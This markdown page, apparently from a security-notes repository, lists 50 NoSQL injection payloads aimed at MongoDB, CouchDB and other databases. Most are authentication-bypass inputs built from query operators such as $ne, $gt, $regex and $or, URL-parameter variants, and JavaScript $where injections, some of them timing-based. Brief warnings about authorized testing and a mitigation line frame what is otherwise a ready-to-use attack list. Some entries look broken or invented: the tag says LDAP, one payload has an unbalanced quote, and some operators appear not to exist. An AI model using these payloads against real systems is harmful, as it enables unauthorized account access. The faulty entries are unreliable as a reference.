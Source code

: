 ```yaml
---
title: "NoSQL injection payload"
tags:
  - LDAP_injection
---
```


NoSQL injection is a technique used to exploit vulnerabilities in NoSQL databases by injecting malicious code into queries, similar to SQL injection but tailored to NoSQL query syntax like MongoDB, Cassandra, or CouchDB. Below is a list of 50 example payloads that could be used to test for NoSQL injection vulnerabilities. **Warning**: These payloads are for educational and testing purposes only, in controlled environments with explicit permission. Unauthorized use is illegal and unethical.

**Note**: The payloads are generalized and may need adaptation depending on the NoSQL database (e.g., MongoDB, CouchDB) and the application's query structure. Always test responsibly in a legal, authorized environment.

### MongoDB-Specific NoSQL Injection Payloads
MongoDB often uses JSON-like query syntax, so payloads target operators like `$ne`, `$eq`, `$gt`, `$regex`, etc.

1. `{"username": {"$ne": null}, "password": {"$ne": null}}` - Bypasses authentication by checking for non-null username/password.
2. `{"username": "admin", "password": {"$gt": ""}}` - Attempts to match any password greater than an empty string.
3. `{"username": {"$eq": "admin"}, "password": {"$exists": true}}` - Checks if the username is "admin" and password exists.
4. `{"$or": [{"username": "admin"}, {"password": "anything"}]}` - Uses `$or` to bypass authentication logic.
5. `{"username": {"$in": ["admin", "user"]}, "password": {"$ne": "wrong"}}` - Tests multiple usernames with a not-equal condition.
6. `{"username": {"$regex": ".*admin.*"}, "password": {"$ne": null}}` - Uses regex to match usernames containing "admin".
7. `{"username": {"$eq": "admin"}, "password": {"$type": 2}}` - Targets string-type passwords.
8. `{"username": {"$gt": ""}, "password": {"$gt": ""}}` - Matches any non-empty username and password.
9. `{"$where": "this.username == 'admin'"}` - Uses JavaScript-based `$where` clause to bypass checks.
10. `{"username": {"$ne": ""}, "password": {"$regex": "^.*$"}}` - Matches any non-empty username and any password.
11. `{"username": {"$eq": "admin"}, "password": {"$nin": ["invalid"]}}` - Excludes specific invalid passwords.
12. `{"username": "admin';return true;//", "password": "anything"}` - JavaScript injection for `$where` queries.
13. `{"username": {"$regex": "^a"}, "password": {"$exists": true}}` - Matches usernames starting with "a".
14. `{"$and": [{"username": "admin"}, {"password": {"$ne": "wrong"}}]}` - Combines conditions to bypass logic.
15. `{"username": {"$eq": "admin"}, "password": {"$size": 0}}` - Targets empty password arrays.
16. `{"username": {"$not": {"$eq": "guest"}}, "password": {"$ne": null}}` - Excludes "guest" usernames.
17. `{"username": {"$all": ["admin"]}, "password": {"$gt": ""}}` - Matches specific username arrays.
18. `{"username": {"$regex": "admin", "$options": "i"}, "password": {"$ne": null}}` - Case-insensitive username match.
19. `{"username": {"$elemMatch": {"$eq": "admin"}}, "password": {"$ne": ""}}` - Targets array elements.
20. `{"$where": "this.password.length > 0"}` - JavaScript to check non-empty passwords.

### General NoSQL Injection Payloads
These payloads target common NoSQL databases or generic query structures.

21. `username=admin&password[$ne]=null` - URL-encoded payload for bypassing authentication.
22. `username=admin&password[$gt]=` - Empty `$gt` to match any password.
23. `username[$eq]=admin&password[$exists]=true` - Checks for existing passwords.
24. `username[$regex]=.*admin.*&password[$ne]=null` - Regex-based username match.
25. `username=admin&password[$in][]=valid&password[$in][]=invalid` - Tests multiple password values.
26. `username[$ne]=guest&password[$ne]=null` - Excludes guest users.
27. `username[$or][][username]=admin&username[$or][][password]=anything` - OR condition in URL.
28. `username[$eq]=admin&password[$type]=string` - Targets string-type passwords.
29. `username=admin&password[$regex]=^.*$` - Matches any password.
30. `username[$not][$eq]=user&password[$ne]=null` - Excludes specific usernames.

### JavaScript Injection Payloads
For databases supporting JavaScript (e.g., MongoDB `$where`).

31. `{"$where": "return true"}` - Always-true condition to bypass authentication.
32. `{"$where": "this.username == 'admin' && this.password != 'wrong'"}` - Specific username/password check.
33. `{"$where": "sleep(1000);return true"}` - Tests for JavaScript execution delay.
34. `{"$where": "this.password == this.password"}` - Trivial true condition.
35. `{"$where": "this.username.length > 0"}` - Matches non-empty usernames.
36. `username=admin';sleep(1000);//&password=anything` - JavaScript delay injection.
37. `{"$where": "this.username.match(/admin/)}` - Regex-based username match in JavaScript.
38. `{"$where": "this.password == 'admin' || true"}` - Forces true with OR.
39. `{"$where": "function(){return true;}"}` - Anonymous function to return true.
40. `{"$where": "this.username == 'admin' && 1==1"}` - Adds trivial true condition.

### CouchDB/Cassandra/Other NoSQL Payloads
These target other NoSQL databases with different query structures.

41. `{"key": {"$eq": "admin"}, "value": {"$ne": null}}` - CouchDB-style key-value injection.
42. `{"selector": {"username": "admin", "password": {"$gt": ""}}}` - CouchDB selector query.
43. `{"selector": {"$or": [{"username": "admin"}, {"password": "test"}]}}` - CouchDB OR condition.
44. `username[$eq]=admin&password[$gt]=0` - Numeric comparison for Cassandra.
45. `{"query": "username = 'admin' OR 1=1"}` - Generic OR injection.
46. `{"filter": {"username": {"$contains": "admin"}}}` - Filter-based injection.
47. `{"username": {"$eq": "admin"}, "password": {"$isNotNull": true}}` - Non-null check.
48. `{"query": {"username": {"$like": "%admin%"}}}` - LIKE-style pattern matching.
49. `{"username": {"$in": ["admin", "root"]}, "password": {"$exists": true}}` - Multi-user check.
50. `{"selector": {"username": {"$regex": ".*"}, "password": {"$ne": null}}}` - Broad regex match.

### Notes
- **Context-Specific**: Payloads must be tailored to the database (e.g., MongoDB uses `$ne`, CouchDB uses `selector`). Test the database type first.
- **Encoding**: For web applications, payloads may need URL or JSON encoding (e.g., `[$ne]` becomes `%5B%24ne%5D`).
- **Ethical Use**: Only test systems you own or have explicit permission to test. Unauthorized testing is illegal.
- **Mitigation**: Developers should sanitize inputs, use parameterized queries, and avoid exposing query operators to user input.

